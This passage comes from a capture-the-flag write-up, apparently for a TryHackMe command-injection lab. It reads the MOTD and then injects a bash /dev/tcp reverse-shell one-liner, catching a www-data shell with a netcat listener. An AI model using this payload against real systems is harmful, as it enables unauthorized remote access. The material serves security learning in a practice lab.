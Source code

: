 - Print out the MOTD.  What favorite beverage is shown?
> Using `cat /etc/update-motd.d/00-header`. It's `DR PEPPER`.<br><br><a href="/assets/images/tryhackme/injection/13.png"><img src="/assets/images/tryhackme/injection/13.png"></a>

## Get The Flag!
Inject our `netcat` reverse shell into the web.

```bash
bash -c 'exec bash -i &>/dev/tcp/10.11.25.205/9999 <&1'
```

Set our `netcat` listener.

```bash
$ nc -lnvp 9999                        
listening on [any] 9999 ...
```

Submit the payload and we got the shell back!

```bash
$ nc -lnvp 9999                        
listening on [any] 9999 ...
connect to [10.11.25.205] from (UNKNOWN) [10.10.253.105] 56764
bash: cannot set terminal process group (1050): Inappropriate ioctl for device
bash: no job control in this shell
www-data@injection:/var/www/html$
```
